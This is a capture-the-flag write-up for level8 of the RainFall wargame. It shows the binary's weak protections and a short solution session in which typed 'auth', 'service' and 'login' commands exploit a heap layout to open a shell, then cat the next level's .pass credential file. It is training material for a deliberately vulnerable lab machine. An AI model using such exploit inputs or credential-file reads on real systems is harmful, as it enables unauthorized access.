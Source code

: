# level8

## Header

```bash
ssh level8@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
```

<hr>

## Solution

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth Hack
0x804a008, (nil) 
service Me if
0x804a008, 0x804a018 
service You 
0x804a008, 0x804a028 
service Can
0x804a008, 0x804a038 
login
$
```

And getting the flag in the shell:
```bash
$ pwd
/home/user/level8
$ cd ../level9
$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## References

https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb
https://faydoc.tripod.com/cpu/cmps.htm